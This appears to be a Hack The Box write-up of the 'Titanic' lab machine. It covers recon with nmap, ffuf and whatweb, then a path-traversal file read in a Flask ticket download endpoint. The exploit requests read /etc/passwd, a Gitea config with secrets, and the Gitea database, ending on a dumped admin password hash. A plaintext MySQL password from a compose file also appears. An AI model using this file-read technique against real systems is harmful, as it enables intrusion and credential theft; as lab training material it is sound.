







Scanning
Passive
First of all, for convenience, I store the target ip on a env variable
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ export target=10.10.11.55
Then, instead of typing the ip manually everytime I can use $target instead. Let's do a ping:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ ping -c1 $target
PING 10.10.11.55 (10.10.11.55) 56(84) bytes of data.
64 bytes from 10.10.11.55: icmp_seq=1 ttl=63 time=41.7 ms
--- 10.10.11.55 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 41.660/41.660/41.660/0.000 ms
From the TTL close to 64 we can assume the target machine is a Linux.
So, let's see if it has a web page with wget
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ wget http://$target
--2025-03-08 20:16:26-- http://10.10.11.55/
Connecting to 10.10.11.55:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://titanic.htb/ [following]
--2025-03-08 20:16:26-- http://titanic.htb/
Resolving titanic.htb (titanic.htb)... failed: Name or service not known.
wget: unable to resolve host address ‘titanic.htb’
301 Code Moved Permanently and a redirection to titanic.htb, this means that is trying to redirect the petition to the http://titanic.htb page, but because there is no dns resolution (Name or service not known.) we can't access. So let's add it to the /etc/hosts file to locally resolve it.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 zero
10.10.11.55 titanic.htb
Let's try an wget directly to the titanic page now.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ wget http://titanic.htb
--2025-03-08 20:19:25-- http://titanic.htb/
Resolving titanic.htb (titanic.htb)... 10.10.11.55
Connecting to titanic.htb (titanic.htb)|10.10.11.55|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7399 (7.2K) [text/html]
Saving to: ‘index.html’
index.html 100%[=======================================================================================================================================>] 7.23K --.-KB/s in 0s
2025-03-08 20:19:25 (1.35 GB/s) - ‘index.html’ saved [7399/7399]
Great, we could download the index.html file, let's see it.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ cat index.html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Titanic - Book Your Ship Trip</title>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
<link href="/static/styles.css" rel="stylesheet">
<!-- Google Fonts -->
<link href="https://fonts.googleapis.com/css2?family=Playfair+Display:wght@400;700&display=swap" rel="stylesheet">
<link rel="icon" type="image/x-icon" href="/static/assets/images/favicon.ico">
<style>
body {
font-family: 'Playfair Display', serif;
}
.hero-section {
background-image: url("/static/assets/images/home.jpg");
background-size: cover;
background-position: center;
color: white;
padding: 100px 0;
}
</style>
</head>
<body>
<!-- Navbar -->
<nav class="navbar navbar-expand-lg navbar-dark bg-dark">
<a class="navbar-brand" href="#">Titanic</a>
<button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
<span class="navbar-toggler-icon"></span>
</button>
<div class="collapse navbar-collapse" id="navbarNav">
<ul class="navbar-nav ml-auto">
<li class="nav-item active">
<a class="nav-link" href="#">Home</a>
</li>
<li class="nav-item">
<a class="nav-link" href="#">About</a>
</li>
<li class="nav-item">
<a class="nav-link" href="#">Services</a>
</li>
<li class="nav-item">
<a class="nav-link" href="#">Contact</a>
</li>
<li class="nav-item">
<a class="nav-link btn btn-primary text-white" href="#" data-toggle="modal" data-target="#bookingModal">Book Now</a>
</li>
</ul>
</div>
</nav>
<!-- Hero Section -->
<header class="hero-section">
<div class="container text-center">
<h1>Welcome to Titanic</h1>
<p>Your gateway to a luxurious ship trip experience</p>
<a href="#" class="btn btn-primary" data-toggle="modal" data-target="#bookingModal">Book Your Trip</a>
</div>
</header>
Seems like a ship trip store (?), anyway, I will come back later to the webpage via browser. Also, at the bottom of the source code we can see some scripts being loaded, this are CDN and frameworks.
<script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.5.3/dist/umd/popper.min.js"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>
Let's keep going, let's see if it has https:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ wget https://titanic.htb
--2025-03-08 20:35:32-- https://titanic.htb/
Resolving titanic.htb (titanic.htb)... 10.10.11.55
Connecting to titanic.htb (titanic.htb)|10.10.11.55|:443... failed: Connection refused.
Nope... Also doesn't have any exposed sql on default port.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ mysql -h titanic.htb
ERROR 2002 (HY000): Can't connect to server on 'titanic.htb' (115)
It has ssh and we can login with root user:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ ssh root@titanic.htb
The authenticity of host 'titanic.htb (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'titanic.htb' (ED25519) to the list of known hosts.
root@titanic.htb's password:
As it has ssh, it will probably have sftp:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sftp root@titanic.htb
root@titanic.htb's password:
No smb
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ smbclient -L titanic.htb
do_connect: Connection to titanic.htb failed (Error NT_STATUS_CONNECTION_REFUSED)
I use whatweb to see which technologies the titanic web is using:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ whatweb http://titanic.htb
http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
HTTPServer is Werkzeug, which is a python library for web application server, so the server is running on Python version 3.10.12.
Active
First, I do a quick nmap scan on all the ports, I use the -T4 flag to speed things up:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ nmap -p- -Pn -T4 titanic.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 21:32 CET
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.042s latency).
Not shown: 65262 closed tcp ports (reset), 271 filtered tcp ports (no-response)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Only 2 open ports, 22 and 80... Now I will redo the nmap scan but with the flags -sC and -sV to use scripts and version enumerate, this will get me some more info from the webpage.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ nmap -sC -sV -p 22,80 -Pn titanic.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 21:48 CET
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.042s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_ 256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open http Apache httpd 2.4.52
| http-server-header:
| Apache/2.4.52 (Ubuntu)
|_ Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.25 seconds
Now we know that the server is using apache (2.4.52) and werkzeug, and it's an ubuntu. Maybe it has 2 different web servers because Wekzeug is working on Apache? Or maybe is because it's a virtual host? Interesting...
With the 2 http servers, I think that maybe the titanic is a virtual host, and there is some other virtual host, so to look it up I will use fuff, I use the -H flag to indicate is a virtual host scan. I use FUZZ for the fuzzing placeholder, and also a -mcto only filter the results that match with the 200 code, which is the success one (meaning that it really is a subdomain and not some redirection or something else)
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.titanic.htb" -u http://titanic.htb/ -mc 200
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://titanic.htb/
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Header : Host: FUZZ.titanic.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200
________________________________________________
dev [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 46ms]
Dev [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 45ms]
DEV [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 46ms]
:: Progress: [220560/220560] :: Job [1/1] :: 943 req/sec :: Duration: [0:04:33] :: Errors: 0 ::
Aha! We got one subdomain, and doing a whatweb we can see that is the culprit running apache!
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ whatweb http://dev.titanic.htb
http://dev.titanic.htb [200 OK] Apache[2.4.52], Cookies[_csrf,i_like_gitea], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[_csrf,i_like_gitea], IP[10.10.11.55], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[Gitea: Git with a cup of tea], X-Frame-Options[SAMEORIGIN]
This is a gitea page. Gittea is used for self-hosting git environments. So possibly we will encounter the source code on there, and also in the gitea configuration. Unluckily, I didn't found any known exploit for gitea version 1.22.1
Let's do some more reconnaissance on the web. Seems like the web is pretty static, I only can interact with the "Book your trip" button, anything else doesn't work.

I will use burpsuite to capture the packet and see how it inputs.
POST /book HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://titanic.htb
Connection: keep-alive
Referer: http://titanic.htb/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
name=test01&email=test01%40test.com&phone=123456786&date=2025-03-09&cabin=Deluxe
A post to /book with the variables I imputed. Right after submitting the form, It downloads my ticket:
GET /download?ticket=4c0619a9-633f-45f9-8db7-df0e6e92faba.json HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
It does a GET to /download with the variable of ticket the .json file. Very interesting looking for LFI on here...
Seems like /book simply takes the variables imputed on the form, and then it creates a .json (ticket). The interesting thing is that /download gets that json and downloads it for you.
Attack
Gaining access
Le't go to the gitea page. There is a button to register an account, and that what I do.

Once inside, I search for something intersting, and on the "explore" page I see 2 repos:

A flask-app (maybe the principal page) and a docker-config. Maybe the flask app is running on a docker container?
Looking at the docker-config repo, on the docker-compose.yml (which is the configuration file used by docker compose)

version: '3'
services:
gitea:
image: gitea/gitea
container_name: gitea
ports:
- "127.0.0.1:3000:3000"
- "127.0.0.1:2222:22" # Optional for SSH access
volumes:
- /home/developer/gitea/data:/data # Replace with your path
environment:
- USER_UID=1000
- USER_GID=1000
restart: always
This configuration pulls the official gitea docker image. Binds the port 3000 on the container to the port 3000 on the 3000 of the host, but only accessible from localhost, the same with the port 22 of the container that is binded on the 2222 of the host. I think the most important thing is that we now know where is stored the gitea on the host, /home/developer/gitea/data
There is also another folder named mysql containing another .yml file:

version: '3.8'
services:
mysql:
image: mysql:8.0
container_name: mysql
ports:
- "127.0.0.1:3306:3306"
environment:
MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
MYSQL_DATABASE: tickets
MYSQL_USER: sql_svc
MYSQL_PASSWORD: sql_password
restart: always
There is a plain-text password for the MYSQL root user. But on the mapped ports, we can see that is only accessible via localhost... Maybe this is the database of the gitea? Or the webpage?
Let's look at the flask-app repository Quick explanation of what the web does on the readme:

Let's look at the app.py file, this is where is going to be all the source code.
from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4
app = Flask(__name__)
TICKETS_DIR = "tickets"
if not os.path.exists(TICKETS_DIR):
os.makedirs(TICKETS_DIR)
@app.route('/')
def index():
return render_template('index.html')
@app.route('/book', methods=['POST'])
def book_ticket():
data = {
"name": request.form['name'],
"email": request.form['email'],
"phone": request.form['phone'],
"date": request.form['date'],
"cabin": request.form['cabin']
}
ticket_id = str(uuid4())
json_filename = f"{ticket_id}.json"
json_filepath = os.path.join(TICKETS_DIR, json_filename)
with open(json_filepath, 'w') as json_file:
json.dump(data, json_file)
return redirect(url_for('download_ticket', ticket=json_filename))
@app.route('/download', methods=['GET'])
def download_ticket():
ticket = request.args.get('ticket')
if not ticket:
return jsonify({"error": "Ticket parameter is required"}), 400
json_filepath = os.path.join(TICKETS_DIR, ticket)
if os.path.exists(json_filepath):
return send_file(json_filepath, as_attachment=True, download_name=ticket)
else:
return jsonify({"error": "Ticket not found"}), 404
if __name__ == '__main__':
app.run(host='127.0.0.1', port=5000)
The book and download pages. My suspicion was correct, the book only creates a json with all the variables (with the name as uuid4), and the most important thing, is that after generating it, it redirect to the download_ticket function with the name of the ticket created. Then, the function download_ticket gets the ticket name from the arguments, and (if imputed) does a os.path.join with the ticket dir (which is tickets) and the ticket name. It then returns as a download the ticket.
If we could possibly change the ticket name, to for example /etc/passwd we could download that file. The route should we starting from the tickets folder, so whe should add some ../.. to first go to the root of the server normally. But reading the os.path.join documentation I encounter this:
- *Absolute Paths*: If an absolute path is provided at any level, it resets the previous components to that absolute path.
From https://www.geeksforgeeks.org/python-os-path-join-method/ As the ticket variable is the last parameter, we can input absolute paths and it will work!
So let's capture a packet with burpsuite and edit the ?ticket variable I send to repeater, and modifly the ticket variable.
GET /download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
And we have it:

This can also be done modifying the variable from the url directly, like this:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ curl "http://titanic.htb/download?ticket=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
I don't want to get the user.txt flag now, I don't want it to be so easy, I will wait till I get a shell with the user.
Now, what we have to do is pretty clear... We have the path of the gitea config (/home/developer/gitea/data) and we can download files from the server, so we'll have to search important files over there.
I find this very useful documentation page: https://docs.gitea.com/next/help/faq#where-does-gitea-store-x-file
After trying some paths I found this:
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea
[repository]
ROOT = /data/git/repositories
[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo
[repository.upload]
TEMP_PATH = /data/gitea/uploads
[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
The application configuration, and most importantly, there is the location of the database, which referencing the documentation can be a sqlite, meaning we can download the file and have the database in our machine! Also there is no password on the database!
I download it with the -o flag of curl which saves the output on a file.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2036k 100 2036k 0 0 5189k 0 --:--:-- --:--:-- --:--:-- 5193k
I connect to the database using sqlite3
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sqlite3 gitea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access oauth2_grant
access_token org_user
action package
action_artifact package_blob
action_run package_blob_upload
action_run_index package_cleanup_rule
action_run_job package_file
action_runner package_property
action_runner_token package_version
action_schedule project
action_schedule_spec project_board
action_task project_issue
action_task_output protected_branch
action_task_step protected_tag
action_tasks_version public_key
action_variable pull_auto_merge
app_state pull_request
attachment push_mirror
auth_token reaction
badge release
branch renamed_branch
collaboration repo_archiver
comment repo_indexer_status
commit_status repo_redirect
commit_status_index repo_topic
commit_status_summary repo_transfer
dbfs_data repo_unit
dbfs_meta repository
deploy_key review
email_address review_state
email_hash secret
external_login_user session
follow star
gpg_key stopwatch
gpg_key_import system_setting
hook_task task
issue team
issue_assignees team_invite
issue_content_history team_repo
issue_dependency team_unit
issue_index team_user
issue_label topic
issue_user tracked_time
issue_watch two_factor
label upload
language_stat user
lfs_lock user_badge
lfs_meta_object user_blocking
login_source user_open_id
milestone user_redirect
mirror user_setting
notice version
notification watch
oauth2_application webauthn_credential
oauth2_authorization_code webhook
The user table rings the bell, and doing a select, the result seems promising:
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
